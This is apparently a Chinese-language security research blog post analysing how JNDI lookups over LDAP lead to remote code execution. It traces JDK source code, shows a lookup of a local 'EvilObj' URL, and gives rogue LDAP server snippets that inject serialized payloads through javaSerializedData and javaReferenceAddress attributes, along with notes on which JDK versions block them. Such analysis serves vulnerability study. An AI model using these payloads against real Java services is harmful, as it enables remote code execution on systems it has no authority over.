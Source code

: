 ```yaml
---
title: JNDI with LDAP
tags: 
  - vul
categories: notes
date: 2020-03-01 19:22:01
typora-root-url: ../../../source
---
```


## 0x00 前言

JNDI的SPI层除了RMI外，还可以跟LDAP交互。与RMI类似，LDAP也能同样返回一个Reference给JNDI的Naming Manager，本文将讲述JNDI使用ldap协议的两个攻击面XD

<!-- more -->

## 0x01 LDAP基础

关于LDAP的介绍，延伸阅读一下[这篇](https://www.cnblogs.com/wilburxu/p/9174353.html)

> LDAP can be used to store Java objects by using several special Java attributes. There are at least two ways a Java object can be represented in an LDAP directory:
>
> ● Using Java serialization
> 		o https://docs.oracle.com/javase/jndi/tutorial/objects/storing/serial.html
> ● Using JNDI References
> 		o https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html
>
> from https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf

Java中的LDAP可以在属性值中存储相关的Java对象，可以存储如上两种对象，而相关的问题就是出现在这部分上。

后文用的LDAP Server参考的是[mbechler 实现的LDAPRefServer](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)，连接的客户端Client直接用JNDI的lookup完成，jdk版本jdk8u162

```java
Context ctx = new InitialContext();
ctx.lookup("ldap://127.0.0.1:1389/EvilObj");
ctx.close();
```

## 0x02 LDAP with JDNI References

JNDI发起ldap的lookup后，将有如下的调用流程，这里我们直接来关注，获得远程LDAP Server的Entry之后，Client这边是怎么做处理的

![image-20200301142213589](/images/jndi-with-ldap-20200301/image-20200301142213589.png)

跟进com/sun/jndi/ldap/Obj.java#decodeObject，按照该函数的注释来看，其主要功能是解码从LDAP Server来的对象，该对象可能是序列化的对象，也可能是一个Reference对象。关于序列化对象的处理，我们看后面一节。这里摘取了Reference的处理方式：

```java
static Object decodeObject(Attributes attrs)
    throws NamingException {
    Attribute attr;
    // Get codebase, which is used in all 3 cases.
    String[] codebases = getCodebases(attrs.get(JAVA_ATTRIBUTES[CODEBASE]));
    try {
        // ...
        attr = attrs.get(JAVA_ATTRIBUTES[OBJECT_CLASS]);// "objectClass"
        if (attr != null &&
            (attr.contains(JAVA_OBJECT_CLASSES[REF_OBJECT]) || // "javaNamingReference"
                attr.contains(JAVA_OBJECT_CLASSES_LOWER[REF_OBJECT]))) { // "javanamingreference"
            return decodeReference(attrs, codebases);
        }
      //...
```

如果LDAP Server返回的属性里包括了`objectClass`和`javaNamingReference`，将进入Reference的处理函数decodeReference上

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[CLASSNAME])) != null) {
    className = (String)attr.get();
} else {
    throw new InvalidAttributesException(JAVA_ATTRIBUTES[CLASSNAME] +
                " attribute is required");
}

if ((attr = attrs.get(JAVA_ATTRIBUTES[FACTORY])) != null) {
    factory = (String)attr.get();
}

Reference ref = new Reference(className, factory,
    (codebases != null? codebases[0] : null));
```

decodeReference再从属性中提取出`javaClassName`和`javaFactory`，最后将生成一个Reference。这里如果看过我前面的那篇[jndi-with-rmi](http://blog.0kami.cn/2020/02/09/jndi-with-rmi/)，可以看到其实这里生成的ref就是我们在RMI返回的那个ReferenceWrapper，后面这个ref将会传递给Naming Manager去处理，包括从codebase中获取class文件并载入。

而这里LDAP也类似，处理ref的对象是NamingManager的子类javax/naming/spi/DirectoryManager.java，因为跟RMI有点类似不具体分析了，最后同样由javax/naming/spi/NamingManager.java#getObjectFactoryFromReference来处理。

到这里，我们再来看mbechler 实现的LDAPRefServer就比较清楚了

![image-20200301144715061](/images/jndi-with-ldap-20200301/image-20200301144715061.png)

当其获取到LDAP连接时，将填充如上的几个属性及其对应的值，就是为了满足上面的条件而生成一个Reference对象。

## 0x03 LDAP with Serialized Object

JNDI对于属性中的序列化数据的处理一共有两个地方，我们先来顺着前面的JNDI Reference的思路说下去

#### 第一处：com/sun/jndi/ldap/Obj.java#decodeObject

在com/sun/jndi/ldap/Obj.java#decodeObject上还存在一个判断

```java
if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) {// “javaSerializedData”
    ClassLoader cl = helper.getURLClassLoader(codebases);
    return deserializeObject((byte[])attr.get(), cl);
}
```

如果在返回的属性中存在`javaSerializedData`，将继续调用`deserializeObject`函数，该函数主要就是调用常规的反序列化方式readObject对序列化数据进行还原，如下payload。

```java
@Override
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaSerializedData", serialized);
}
```

这里我们就不需要通过远程codebase的方式来达成RCE，当然首先本地环境上需要有反序列化利用链所依赖的库文件。

#### 第二处：com/sun/jndi/ldap/Obj.java#decodeReference

`decodeReference`函数在对普通的Reference还原的基础上，还可以进一步对RefAddress做还原处理，其中还原过程中，也调用了`deserializeObject`函数，这意味着我们通过满足RefAddress的方式，也可以达到上面第一种的效果。

具体代码太长了，这里我就说一下条件：

1. 第一个字符为分隔符
2. 第一个分隔符与第二个分隔符之间，表示Reference的position，为int类型
3. 第二个分隔符与第三个分隔符之间，表示type，类型
4. 第三个分隔符是双分隔符的形式，则进入反序列化的操作
5. 序列化数据用base64编码

满足上面的条件，构造一个类似的

```java
protected void processAttribute(Entry entry){
  entry.addAttribute("javaClassName", "foo");
  entry.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(serialized));
  entry.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
}
```

当然第二处只是一个锦上添花的步骤，我们可以直接用第一种方法，第二种在第一种不能用的情况下可以试试。

## 0x04 后续

自[jdk8u191-b02](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/rev/2db6890a9567#l1.33)版本后，新添加了`com.sun.jndi.ldap.object.trustURLCodebase`默认为false的限制，也就意味着远程codebase的Reference方式被限制死了，我们只能通过SerializedData的方法来达成利用。

我们来整理一下，关于jndi的相关安全更新

* JDK 6u132, JDK 7u122, JDK 8u113中添加了com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false。

  **导致jndi的rmi reference方式失效，但ldap的reference方式仍然可行**

* Oracle JDK 11.0.1、8u191、7u201、6u211之后 `com.sun.jndi.ldap.object.trustURLCodebase `属性的默认值被调整为false。

  **导致jndi的ldap reference方式失效，到这里为止，远程codebase的方式基本失效，除非认为设为true**

而在最新版的jdk8u上，jndi ldap的本地反序列化利用链[1](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l239)和[2](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/com/sun/jndi/ldap/Obj.java#l478)的方式仍然未失效，jndi rmi底层(JRMPListener)[StreamRemoteCall](http://hg.openjdk.java.net/jdk8u/jdk8u-dev/jdk/file/b959971e0a5a/src/share/classes/sun/rmi/transport/StreamRemoteCall.java#l270)的本地利用方式仍未失效。

所以如果Reference的方式不行的时候，可以试试利用本地ClassPath里的反序列化利用链来达成RCE。

## 0x05 总结

JNDI和LDAP的结合，出现了2种利用方式，一是利用远程codebase的方式，二是利用本地ClassPath里的反序列化利用链。在最新版的jdk8u中，codebase的方式依赖`com.sun.jndi.ldap.object.trustURLCodebase`的值，而第二种方式仍未失效。

LDAP的使用方法除了JNDI的lookup，其他的库也会有相应的使用方法，如Spring的ldap，这里还可以继续深入下去，先挖个坑XD

最后，上面的两个ldap Server更新到了[github](https://github.com/wh1t3p1g/ysomap)上，自取XD